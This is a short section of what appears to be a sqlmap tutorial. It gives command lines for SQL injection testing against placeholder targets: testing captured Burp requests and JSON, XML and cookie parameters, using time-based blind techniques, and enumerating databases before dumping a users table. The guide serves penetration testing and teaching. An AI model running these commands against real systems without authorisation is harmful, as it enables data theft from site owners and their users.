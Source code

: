 
## 💡 Real-World Scenarios

### 1. Web Application Testing
```bash
# Capture request with Burp Suite and save to file
# POST /login HTTP/1.1
# Host: target.com
# Content-Type: application/x-www-form-urlencoded
# 
# username=admin&password=test&submit=Login

# Test the captured request
sqlmap -r burp_request.txt

# Target specific parameter
sqlmap -r burp_request.txt -p username

# Extract data if vulnerable
sqlmap -r burp_request.txt --dbs
sqlmap -r burp_request.txt -D webapp --tables
sqlmap -r burp_request.txt -D webapp -T users --dump
```

### 2. API Endpoint Testing
```bash
# JSON API testing
sqlmap -u "http://api.target.com/users" --data='{"id": 1, "action": "get"}' --method=POST --headers="Content-Type: application/json"

# XML API testing
sqlmap -u "http://api.target.com/soap" --data='<?xml version="1.0"?><soap:Envelope><soap:Body><getUserInfo><userId>1</userId></getUserInfo></soap:Body></soap:Envelope>' --method=POST --headers="Content-Type: text/xml"
```

### 3. Cookie-based Injection
```bash
# Test cookies for injection
sqlmap -u "http://target.com/dashboard.php" --cookie="session_id=abc123; user_id=1*" --level=2

# Specific cookie parameter
sqlmap -u "http://target.com/dashboard.php" --cookie="session_id=abc123; user_id=1" -p user_id
```

### 4. Time-based Blind Injection
```bash
# When other techniques fail, use time-based
sqlmap -u "http://target.com/page.php?id=1" --technique=T --time-sec=10

# Optimize for slow connections
sqlmap -u "http://target.com/page.php?id=1" --technique=T --time-sec=5 --timeout=30
```

---